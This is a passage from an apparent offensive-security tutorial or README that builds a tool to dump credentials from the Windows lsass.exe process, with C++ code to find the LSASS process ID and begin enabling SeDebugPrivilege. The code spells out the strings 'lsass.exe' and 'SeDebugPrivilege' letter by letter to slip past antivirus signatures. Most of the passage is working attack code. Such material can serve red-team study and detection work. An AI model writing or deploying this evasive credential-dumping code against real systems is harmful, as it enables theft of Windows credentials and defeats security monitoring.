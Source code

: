 ```cpp
	return is_elevated;
}
```

<br>

#### Get Lsass Process ID

For getting the lsass.exe process ID (or PID) we will use the following function (based on this [code](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass)). To avoid using the string "lsass.exe" we will concatenate each letter of the string creating *processname_str*:

```cpp
DWORD getProcessPid()
{
	DWORD processPID = 0;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";
	if (Process32First(snapshot, &processEntry)) {
		string str1 = "l";
		string str2 = ".";
		string str3 = "s";
		string str4 = "e";
		string str5 = "a";
		string str6 = "x";
		string processname_str = str1 + str3 + str5 + str3 + str3 + str2 + str4 + str6 + str4;
		std::wstring processname(processname_str.begin(), processname_str.end());
		const wchar_t* szName = processname.c_str();
		while (_wcsicmp(processName, szName) != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			processPID = processEntry.th32ProcessID;
		}
	}
	return processPID;
}
```

<br>

#### Set the SeDebugPrivilege privilege

To interact with the process we will need not only run the process with administrative privileges but also the SeDebugPrivilege privilege. For that, we will use the following method (based on [this snippet](https://www.unknowncheats.me/forum/1872353-post36.html)). To avoid using the string "SeDebugPrivilege" we will concatenate each letter of the string creating *privilegename_str*: 


```cpp
bool SetPrivilege()
{
	string str1 = "S";
	string str2 = "P";
	string str3 = "e";
	string str4 = "r";
	string str5 = "D";
	string str6 = "i";
	string str7 = "b";
	string str8 = "v";
	string str9 = "u";
	string str10 = "l";
	string str11 = "g";
	string privilegename_str = str1 + str3 + str5 + str3 + str7 + str9 + str11 + str2 + str4 + str6 + str8 + str6 + str10 + str3 + str11 + str3;
```